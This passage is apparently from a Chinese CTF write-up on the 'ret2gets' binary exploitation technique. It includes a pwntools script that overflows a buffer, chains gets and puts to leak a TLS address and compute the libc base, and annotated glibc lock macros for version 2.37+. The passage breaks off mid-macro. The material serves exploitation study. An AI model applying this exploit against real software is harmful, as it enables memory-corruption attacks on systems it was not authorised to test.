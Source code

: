 ### puts 泄露
#### 2.30-2.36
我们先分析是如何获取libc的

之前提到，`owner`部分会变成TLS的值，那么我们就希望能够通过puts函数输出这一部分的值

但是，`gets`函数的特性是，读入遇到`\n`才停止，然后把`\n`变成`\0`，而`\0`刚好会截断`puts`的输出，那么我们岂不是泄露不了TLS了？

回到之前讲过的，`cnt`在锁释放后会减一，存在负数溢出

把`cnt`的值在`gets`过程中覆盖为0，那么`cnt`减一后，变成了`0xffffffff`，就成功绕过了

```c
from pwn import *
context(arch='amd64',os='linux')
io= process("./gets")
gdb.attach(io)
puts=0x401030
gets=0x401050
pause()
io.recvuntil(b'ret2gets&ret2system\n')

payload1=b'a'*(0x28)+p64(gets)+p64(puts)+p64(0x0401060)
io.sendline(payload1)

payload2=b'AAAA'+b'\x00'*3
io.sendline(payload2)
io.recvuntil(b'\xff\xff\xff\xff')
leak=u64(io.recv(6).ljust(8,b'\x00'))
libc_base=leak-0x3a4740
info('libc_base:'+hex(libc_base))
io.interactive()
```

#### 2.37+
先看源码`_IO_lock_lock`和`_IO_lock_unlock`的改变

```c
#define _IO_lock_lock(_name) 
  do {									      
    void *__self = THREAD_SELF;						      
    if (SINGLE_THREAD_P && (_name).owner == NULL)	//SINGLE_THREAD_P判断是否是单线程
      {									            //但是重点是owner是不是null
	(_name).lock = LLL_LOCK_INITIALIZER_LOCKED;			      
	(_name).owner = __self;						      
      }									      
    else if ((_name).owner != __self)				//我们的攻击执行的是这个if为真的内容
      {									      
	lll_lock ((_name).lock, LLL_PRIVATE);			
	(_name).owner = __self;						    //让owner拥有TLS地址
      }									      
    else								      
      ++(_name).cnt;							      
  } while (0)

#define _IO_lock_unlock(_name) 
  do {									      
    if (SINGLE_THREAD_P && (_name).cnt == 0)		//最特殊的点，当cnt==0时，不会再-1负数溢出了		      
      {									            //其他的都无所谓
	(_name).owner = NULL;						      
	(_name).lock = 0;						      
      }									      
    else if ((_name).cnt == 0)						      
      {									      
	(_name).owner = NULL;						      
	lll_unlock ((_name).lock, LLL_PRIVATE);				      
```